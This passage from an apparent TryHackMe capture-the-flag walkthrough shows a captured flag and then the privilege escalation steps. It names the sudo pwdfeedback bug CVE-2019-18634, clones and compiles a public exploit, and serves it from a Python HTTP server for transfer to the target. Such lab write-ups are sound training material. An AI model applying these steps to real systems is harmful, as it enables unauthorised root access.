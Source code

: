 ```console
cat user.txt  
thm{56911bd7ba1371a3221478aa5c094d68}
```

Answer :thm{56911bd7ba1371a3221478aa5c094d68}



## **TASK 5 : Escalate** <a name="Escalate"></a>

#### What is the CVE number for the exploit?
    
Reading the texttell us the recent CVE is "pwdfeedback" and googling"pwdfeedback" return theCVE-2019-18634.  
Answer :CVE-2019-18634

#### Find the exploit from [https://github.com/saleemrashid/](https://github.com/saleemrashid/) and download the files.
    
```console
cd Deskstop  
mkdir cve-2019-18634  
cd cve-2019-18634  
git clone https://github.com/saleemrashid/sudo-cve-2019-18634
```

No answer

#### Compile the exploit from Kali linux.
    
```console
cd sudo-cve-2019-18634  
make
```

No answer

#### SCP the exploit binary to the box.
    

Copy and save this code to the KALI where you downloaded the exploit :

```python
import http.server  
import socketserver  
PORT = 8888  
Handler = http.server.SimpleHTTPRequestHandler  
with socketserver.TCPServer(("", PORT), Handler) as http:  
  print("serving at port", PORT)  
  http.serve_forever()
```

Run the above code :

```console
python server.py
```
